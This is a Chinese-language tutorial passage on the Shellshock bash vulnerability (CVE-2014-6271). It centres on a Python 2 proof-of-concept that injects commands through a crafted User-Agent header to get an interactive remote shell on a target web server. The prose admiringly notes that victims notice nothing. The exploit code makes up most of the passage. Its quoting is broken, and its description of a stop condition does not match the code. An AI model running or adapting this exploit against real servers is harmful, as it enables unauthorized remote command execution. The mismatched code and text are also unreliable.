

# 用例 1: CVE-2014-6271

下面这段 Python 写的 Poc 的代码非常的酷(屌哒哒),用户根本感觉不到发生了什么事情. 这个 Poc 执行后就和系统的命令终端一样,不过这个 Poc 它的目的却与系统的不同.这个 Poc 会修改浏览器的 User-Agent 信息,然后不停的向攻击主机发送一个恶意的指令(这里是执行某个特定的命令).

下面这段代码封装了一个无限循环,通过 raw_input 获取用户输入的终止标记，最后提交请求,从下面的这段代码你可以看到 如何去完成一个 HTTP 请求以及如何修改 User-Agent 的内容：

```py
#!/usr/bin/python
import sys, urllib2    #导入需要使用的模块

if len(sys.argv) != 2:    # 检查输入命令的格式是否正确 "<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)

URL=sys.argv[1]        # 把测试的 URL 输出显示出来
print "[+] Attempting Shell_Shock - Make sure to type full path"

while True:        # 通过 raw_input 来获取用户输入的值,如果是"~$"就停止执行 
  command=raw_input("~$ ")
  opener=urllib2.build_opener()        # 修改默认的请求头部,把修改后的 User-Agent 包含进去
  opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo ' /bin/bash -c "'+command+'"')]
  try:                    # 使用 Try/Except 进行错误处理
    response=opener.open(URL)    #提交请求并且显示响应结果
    for line in response.readlines():
      print line.strip()
  except Exception as e: print e 
```

下面的图片是这个脚本执行后的截图,正在测试 ip 地址为[`192.168.56.101`](http://192.168.56.101) 的系统,你可以很清晰的看到执行之后会生成一个和真实命令终端几乎是一样的． 大家其实可以看到这个脚本只是对测试系统发送了一个 HTTP 请求.其他的什么也没有 做.不过最后一张图展示了具体的细节部分:


